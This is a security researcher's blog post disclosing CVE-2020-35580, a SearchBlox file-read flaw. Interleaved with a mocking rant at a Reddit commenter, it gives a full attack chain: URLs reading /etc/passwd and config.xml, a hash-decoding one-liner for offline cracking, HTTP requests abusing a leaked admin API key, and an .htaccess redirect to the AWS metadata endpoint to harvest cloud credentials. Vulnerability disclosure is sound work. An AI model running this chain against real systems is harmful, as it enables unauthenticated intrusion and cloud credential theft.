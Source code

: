 ```yaml
---
layout: post
title: CVE-2020-35580
categories: [general]
tags: [cve]
comments: true
---
```


I will start by saying I am not that smart. Never have been, never will be. I know when things are bad and sometimes I can translate that into being top 25 on the all time points list on Bugcrowd. Dropping things like that has never really been my style, but sometimes when I am feeling annoyed at things I see in the world I like the take it out on something else. With that said, I would love to take this opportunity to dedicate this post to a special redditor out there. You know who you are. Well, you dont. Let me give you a hint. You love stupid comments like *That's a lot of text for effectively a Burp Active Scan finding*. Cough,cough @WTF-BOOM. Congratulations! You should feel lucky that you are finally being noticed for something! Even if it is for stupid takes on things you might not understand or know much of anything about. Here's to you!

This dedication isn't actually for some silly man making comments that makes me feel the need to dedicate this to him. The real reason is folks piling on someone isn't cool. Some people are not in a good place to just ignore criticisms and it eats at them and really causes demoralizing issues for them. I am not going to expound on this, but a family member is having a terrible time because of people like you and when I was looking some details from a previous blog post I noticed your helpful comment so I re-wrote my post for you. I couldn't care less that you have crap to post about me, but just let it be known that I am better at it than you are. 

So before I write anything about the bug I found that I needed to answer several questions for somebody that I really shouldn't have to, but apparently it has become necessary.

The Aforementioned Several Questions (Just stop it Ohio State):
### Question 1
When I decide to write a blog post, do I find a target and run Burp Active Scan and huff paint and write about what is found?
- First off great question, I am glad that you asked! As nice as paint can smell, I do not. Active scan doesn't often find things that are in scope on public bounties. I mean it's great and it sure can, but not in this scenario. And if it does, there is a 99.9999% chance that it was found prior and I don't care. Furthermore, I sure can do that. Clickjacking can be scarier than you even know. Maybe even scary enough that I will dedicate a 10 part series on it. Nice feedback.

### Question 2
Did this issue I found without Active Scan deserve a blog post? 
- Well I am glad you asked! Applying for a CVE asks for a reference for publishing details, so yes? By the way, it has a CVE. <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35580>

### Question 3
For everyone in disagreement with the answer to Question #2, did this issue I found without Active Scan deserve a blog post? 
- Well, I don't actually care, but hell yes it does. It is a previously unknown issue that needs to be written down. An issue that quite shockingly exists. I am no scientist, but my final vulnerability rating metrics  (the two that matter) were:
```md
Technical complexity Rating : 0
WTF Lulz Rating : 100
```


I will end my rant by saying that if I can reach just one wannabe crap poster than all of this will be worth it. Actually, writing this entertains me so either way I win.

Ok Leroy, lets do this.

I found an external web application and I immediately opened Burp Active Scanner and huffed some paint. Yes, green is the best flavor. Ha. Actually I clicked around as one who does the hacking would do. I did this until I noticed a URL that contained a **url** parameter. Adding a URL to that **url** amounted to an Open Redirect, which was still not found by Active Scanner, sad ;). Despite the url parameter being expressly reserved for URLs, I decided to add an obviously stupid choice of a file name instead of a url. I did it and while I apologize for breaking logical rules, I would do it again. Also, I don't apologize. We now have a url like the following: 
<https://unhappy.site.com/searchblox/servlet/FileServlet?col=9&url=/etc/passwd> and
![etc-passwd.png]({{site.baseurl}}/assets/media/posts/searchblox/etc-passwd.png)

Fantastic, a nice vulnerable system affected by a Local File Inclusion vulnerability which allowed arbitrary files to be read from the underlying operation without authentication. We are so done, submit bug and cash out, write silly blog post about another Active Scan win!

No Leroy, not that. Let's make it worse. With the perk of being able to read arbitrary files, a specific Searchblox file is our best friend.
<https://unhappy.site.com/searchblox/servlet/FileServlet?url=/opt/tomcat/webapps/searchblox/WEB-INF/config.xml&col=1>
 - *Please note that if the **col** parameter (e.g. short for collection) is not provided or if it is too large vs the number of current collections configured on the site, the file contents will not be returned.*In this config.xml file we allow Burp Active Scanner a chance to contribute to this effort. Here there were beautiful things found:
- A (Not The) Super Admin API Key
- Usernames along with Base64 encoded SHA1 password hashes

Luckily we have Burp Active Scan to tell us everything we would ever need to know, let's start with the hashes,actually we had @jreppiks (From the Twitter) who is slightly better than Active Scan with hashes (his words not mine).
1. To Obtain the actual SHA1 Hash, do the following magic:
```bash
# Base64 encoded SHA1 Hash to SHA1 Hash
echo -n "Base64encoded-SHA1-Hash" | base64 -d | xxd -c 20 | cut -d\: -f2 | awk -F' ' '{print $1}' | sed 's# ##g
```
2. Attempt to crack the hash offline with Hashcat and if it is successful it can be easily checked by logging into the application. But if you have a sick compulsion to re-enhash (re + encode + hash == re-enhash) this to see if you get the same value that you fed Hashcat with you can even do the following:
```bash
# re-enhashed Value: D7xtPXym2wO9JBiH0P6vPzIcKqc=
echo -n "CleartextPassword" | openssl sha1 -binary | base64
```

With all the hash chicanery taken care of, lets circle back to that **Super Admin API Key**. If you can imagine, this API key being an API key, allowed API calls to be made that would normally only be afforded to a **Super Admin** user. Shocking. 

So far, I have shown some "Web AppE" (e.g. Technical Term) things in the course of this post. Before we start the final attack, what actually is SearchBlox? It may just be important to get the most out of this. Searchblox is a customizable, enterprise search solution based on Apache Lucene/Elasticsearch for websites, intranets, databases and custom searches. Essentially its purpose is to replace Google's Search Appliance after it went End-of-Life to index enterprise content. With this in mind the best way to attack it may just be to attack it by using its own functionality against itself. If for no other reason, it is absolutely more fun that way. Finally, I must disclose that both Burp Active Scan and I equally contributed to this final attack, let's attack.

First, we create a new collection on the server to store the data that Searchblox indexes.

```md
POST /searchblox/rest/collection/add HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 99
Content-Type: application/json

{ "apikey" : "SHOCKER-AN-API-KEY-GOES-HERE", "colname":"bct3","coltype":"http","language":"en"}

```

Second, we create a custom document instructing Searchblox what to index.

```md
POST /searchblox/api/rest/docadd HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 187

<?xml version="1.0" encoding="utf-8"?>
<searchblox apikey="SHOCKER-AN-API-KEY-GOES-HERE">
	<document colname="bct3" location="http://evil.bad.site.found.by.burp.active.scanner.com/a"></document>
</searchblox>
```

Finally, we configure our external Apache Web Server with the following .htaccess file:
```bash
# 301 FUN with an .htaccess file
http://169.254.169.254/latest
RedirectMatch "^/.*" "http://169.254.169.254/latest/meta-data/"
```
![htaccess.png]({{site.baseurl}}/assets/media/posts/searchblox/htaccess.png)

So why does all of that matter in the slightest? Well, SearchBlox is used for custom searches and can be configured so specific results are shown based on configured criteria. When it is told to index something it wants to be helpful and will. If we tell it to index content on our external server it go forth and request it. Where it gets fun is when we set up Apache to take any request it gets and redirect it back to the Searchblox AWS metadata endpoint. By doing this Searchblox indexes the specified AWS metadata and then we can search for and view it from the appliances web UI within its search results!  And what better information to be able to search for than temporary AWS credentials!
![indexed.png]({{site.baseurl}}/assets/media/posts/searchblox/indexed.png)

Nifty! Thank all that is right and holy for Burp Active Scan.

Like usual, there is undoubtedly a better payload/solution/attack to exploit this. If you know a better way to do it, please school me / make fun of me / troll me to tears on Twitter @hateshaped!

P.S. If it seems I am denigrating Burp Active Scan, please be assured that I love it. It is only used as the means to prove my previous statements.
